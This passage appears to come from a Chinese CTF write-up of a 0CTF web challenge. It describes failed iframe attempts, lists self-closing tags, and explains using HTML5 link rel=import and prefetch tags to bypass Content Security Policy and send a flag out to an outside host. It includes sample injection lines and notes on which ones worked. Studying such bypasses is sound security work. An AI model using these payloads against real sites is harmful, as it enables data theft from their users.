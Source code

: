 1.   [http://blog.csdn.net/qq_19876131/article/details/54097284](http://blog.csdn.net/qq_19876131/article/details/54097284)

2. [http://5alt.me/2017/01/%E5%9F%BA%E4%BA%8Ecsv%E7%9A%84%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E5%B7%B2%E6%AD%BB/](http://5alt.me/2017/01/%E5%9F%BA%E4%BA%8Ecsv%E7%9A%84%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E5%B7%B2%E6%AD%BB/)

   ​

它只所以没违反同源，是因为它是加载一个js，而非iframe，看图

![origin2](http://momomoxiaoxi.com/img/post/0ctf/origin2.png)

整个做题过程的思路，就死在这了。感觉现在只能做到访问flag.php，但是没办法把数据打出来。

感觉成也iframe，败也iframe😭

> 记录一下自闭合标签：
>
>  `<img><br><hr><link><area/> <base/> <input /> <!-- -->`

#### HTML5 Prefetch

本题正确的解答应该是利用chrome的预加载机制来绕过CSP

[Prefetch标签学习](http://www.jianshu.com/p/7f58ddfc1392)

[利用DNS预读取技术绕过CSP](http://bobao.360.cn/learning/detail/3140.html)

[Bypass unsafe-inline mode CSP](http://paper.seebug.org/91/)

[那些年我们绕过的CSP](http://heartsky.info/2017/03/03/%E9%82%A3%E4%BA%9B%E5%B9%B4%E6%88%91%E4%BB%AC%E7%BB%95%E8%BF%87%E7%9A%84CSP/)

类似这种形式：

```

<link rel=import href=\\qq。com

<link rel=import href=\\1759553882
```



至于prerender、prefetch，有看到题解说，可以。但是，我在测试的时候，效果不是很好。

记录下结果：

```html
<link rel=import href=\\www。xx。net 好用
<link rel=prefetch href=\\www。xx。net 访问了，但是收不到数据
<link rel=prerender href=\\www。xx。net 无法访问
```





#### CORS的坑

使用`<link rel=import href=\\1759553882`进行测试的时候，会被chrome拦截。
